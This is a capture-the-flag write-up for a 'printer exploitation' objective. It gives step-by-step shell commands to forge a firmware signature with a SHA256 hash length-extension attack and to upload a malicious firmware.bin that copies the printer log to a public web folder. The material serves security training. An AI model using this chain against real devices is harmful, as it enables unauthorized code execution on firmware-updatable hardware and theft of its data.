


# Objective 7) Printer Exploitation

!!! summary "*Difficulty*: :fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: grey;"}"
    Investigate the stolen <a href="https://printer.kringlecastle.com/">Kringle Castle printer</a>. Get shell access to read the contents of /var/spool/printer.log. What is the name of the last file printed (with a .xlsx extension)? Find Ruby Cyster in Jack's office for help with this objective.


## Hints and Resources

??? hint "Hints provided after helping Ruby Cyster and completing the <a href="../../objectives/O6_Shellcode_Primer">Shellcode Primer</a> Objective"
    **Printer Firmware**<br>
    When analyzing a device, it's always a good idea to pick apart the firmware. Sometimes these things come down Base64-encoded.<br>
    <br>
    **Hash Extension Attacks**<br>
    <a href="https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks">Hash Extension Attacks</a> can be super handy when there's some type of validation to be circumvented.<br>
    <br>
    **Dropping Files**<br>
    Files placed in `/app/lib/public/incoming` will be accessible under <a href="https://printer.kringlecastle.com/incoming/">https://printer.kringlecastle.com/incoming/</a>.

??? hint "Other Resources"
    **JQ - Command line JSON processor**<br>
    <a href="https://stedolan.github.io/jq/">https://stedolan.github.io/jq/</a>

## Setup

To complete this objective we need several additional tools as well as the hash_extender utility referenced in the hints.  For this writeup I am using the Windows Subsystem for Linux with a fresh Ubuntu image to run these, but other environments will work as well.

First, install the various components that will be used
```
sudo apt install git jq make gcc libssl-dev
```

Then, get a copy of the hash_extender tool and compile it
```
git clone https://github.com/iagox86/hash_extender
cd hash_extender
make
```


## Solution

Click on the printer in Jack's Office or use the direct link <a href="https://printer.kringlecastle.com/">https://printer.kringlecastle.com</a>.

Exploring the printer UI we discover that the only portion that is really available to us is the 'Firmware Update' menu item.  On this page we can upload new firmware, apply that uploaded firmware, and download a copy of the existing firmware file.

Download a copy of the firmware file, firmware-export.json.

Inspecting this we find that it is a json file consisting of 4 attributes

- firmware: base64 encoded firmware file
- signature: sha256 signature of the firmware file
- secret_length: 16
- algorithm: SHA256

??? info "Screenshot"
    

Export the base64 encoded firmware file and the signature into separate files using the `jq` utility<br>
```
cat firmware-export.json | jq -r ".firmware" > firmware_json_firmware.txt
cat firmware-export.json | jq -r ".signature" > firmware_json_signature.txt
```

No we need to determine what type of file it is, so we decode it and analyze it with the `file` command.
```
cat firmware_json_firmware.txt | base64 -d | file -
```

The result of this tells us that it is a zip file, so we decode it into an appropriately named file and then look to see what is inside it.
```
cat firmware_json_firmware.txt | base64 -d > original_firmware.zip
unzip -l original_firmware.zip
```
??? info "Screenshot"
    

The zip file contains a single file named firmware.bin.  Presumably this is the file that the printer will execute when performing a firmware update.  So to exploit the printer we want to have it execute a firmware.bin file containing our commands instead.

To retrieve the contents of the printer log file (/var/spool/log/) one of the hints suggests that if we copy it to /app/lib/public/incoming then we will be able to access it through the web interface.  So, we create a new firmware.bin that will do that and put it into a new zip file.

```
echo 'cp /var/spool/printer.log /app/lib/public/incoming/nutmeg-printer.log' > firmware.bin
zip exploit_firmware.zip firmware.bin
```

Now we need to get the printer to process the exploit_firmware.zip file as if it were legitimate firmware.  But we can't just create a new JSON file with this file instead of the original one because the hash that must accompany it is dependent on a 16 character secret that we do not have access to.

Fortunately for us, a property of zip files, and something that Ruby Cyster mentions upon completion of <a href="../O6_Shellcode_Primer">Objective 6</a>, is that if you concatenate two zip files together then when unzipping only the last one is processed.  

So by using a hash extension attack tool such as hash_extenter we can append the exploit zip file to the original zip file and recompute a new hash that will pass the validation checks.  Then when the printer unzips the contents it will only get our malicious firmware.bin.  The following steps detail this process.

First, get the original and exploit firmware zip files into hex format for input into hash_extender.
```
xxd -p original_firmware.zip | tr -d '\n' > original_firmware_zip.hex
xxd -p exploit_firmware.zip | tr -d '\n' > exploit_firmware_zip.hex
```

Second, run hash extender to generate a new file that appends 'exploit_firmware.zip' to the original 'firmware.zip' and computes a new signature.  The results of this command will be outputted to a file in table format for easier processing in the next step.
```
./hash_extender/hash_extender -d `cat original_firmware_zip.hex` --data-format=hex -s `cat firmware_json_signature.txt` -a `cat exploit_firmware_zip.hex` --append-format=hex -f sha256 -l 16 -table > hash_extender_output.txt
```

Third, extract the signature and new file (in hex format) from the output, then turn the hex of the file back into a binary zip file.
```
awk '{ print $2 }' hash_extender_output.txt > new_signature.txt
awk '{ print $3 }' hash_extender_output.txt > exploit_zip.hex
xxd -p -r exploit_zip.hex > exploit.zip
```

!!! warning
    As of this writing I believe there is a bug in hash_extender that is preventing the secret length from being included as the 2nd field in the table output.  If this bug is resolved then the awk fields being extracted above will likely need to change to $3 and $4.

Finally, we create a new json file using our concatenated exploit zip file and it's signature.
```
echo -n '{"firmware":"' > exploit.json
base64 -w 0 exploit.zip >> exploit.json
echo -n '","signature":"' >> exploit.json
cat new_signature.txt | tr -d '\n' >> exploit.json
echo -n '","secret_length":16,"algorithm":"SHA256"}' >> exploit.json
```

With our exploit.json file in hand, we upload it to the printer, update, then view the printer log file that is copied to the incoming folder when the printer executes our script (in this example: https://printer.kringlecastle.com/incoming/nutmeg-printer.log).


## Completion

!!! success "Answer"
    Troll_Pay_Chart.xlsx

